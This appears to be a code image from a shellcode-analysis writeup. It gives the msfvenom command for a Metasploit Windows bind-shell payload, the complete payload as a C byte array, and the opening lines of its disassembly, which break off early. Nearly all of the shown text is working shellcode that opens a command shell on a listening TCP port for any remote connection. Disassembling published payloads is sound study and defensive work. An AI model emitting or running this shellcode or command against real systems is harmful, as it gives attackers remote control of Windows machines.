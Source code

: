 **_Msfvenom Payload: msfvenom -p windows/shell_bind_tcp -f c_**

unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

**_Msfvenom with the Netwide Disassembler: msfvenom -p windows/shell_bind_tcp -f raw | ndisasm -u -_**

00000000  FC                cld

00000001  E882000000        call 0x88

00000006  60                pusha

00000007  89E5              mov ebp,esp

00000009  31C0              xor eax,eax

0000000B  648B5030          mov edx,[fs:eax+0x30]

0000000F  8B520C            mov edx,[edx+0xc]

00000012  8B5214            mov edx,[edx+0x14]

00000015  8B7228            mov esi,[edx+0x28]

00000018  0FB74A26          movzx ecx,word [edx+0x26]

0000001C  31FF              xor edi,edi

0000001E  AC                lodsb

0000001F  3C61              cmp al,0x61

00000021  7C02              jl 0x25

00000023  2C20              sub al,0x20
